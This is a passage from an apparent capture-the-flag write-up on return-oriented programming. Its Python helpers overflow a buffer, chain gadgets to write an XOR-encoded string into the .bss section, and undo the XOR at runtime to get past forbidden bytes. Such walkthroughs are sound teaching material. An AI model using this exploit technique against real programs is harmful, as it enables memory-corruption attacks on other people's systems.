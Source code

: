 Total offset will be `32+8=40`.


## Building exploit

### Overflow

Simple function to overflow the buffer.

```python
def overflow(offset):
        return b"A"*offset
```

### Writing into .bss

Follwing function will:
* Pop values from stack into r12-r15
* Write encoded string into `R12`
* Write .bss address to `R13`
* Write garbage into r14, r15 - because we don't need that registers now
* Utilize `mov` gadget, which writes content of `R12` into address specified in `R13` (in this case: `.bss` section).


```python
def write_to_bss(data, xor_key=2):
        return b''.join([
                p64(gadgets["pop_r12-r15"]),
                xor(data,xor_key)[0],
                p64(gadgets["bss_addr"]),
                p64(0xdeadbeefdeadbeef),
                p64(0xdeadbeefdeadbeef),
                p64(gadgets["mov_gadget"]),
        ])
```


### Inversing XOR at runtime

Following function will:

* Pop values from stack into r12-r15
* Write garbage into r12, r13 - because we don't need that registers now
* Write `xor_key` into `R14`
* Write one encoded letter of string stored in `.bss` into `R15`
* Finally perform xor operation


```python
def inverse_xor(xor_indexes, xor_key=2):
        stage = b''
        for indx in xor_indexes:
                stage += p64(gadgets["pop_r12-r15"])
                stage += p64(0xdeadbeefdeadbeef)
                stage += p64(0xdeadbeefdeadbeef)
                stage += p64(xor_key)
                stage += p64(gadgets["bss_addr"] + indx)
                stage += p64(gadgets["xor_gadget"])
        return stage
```
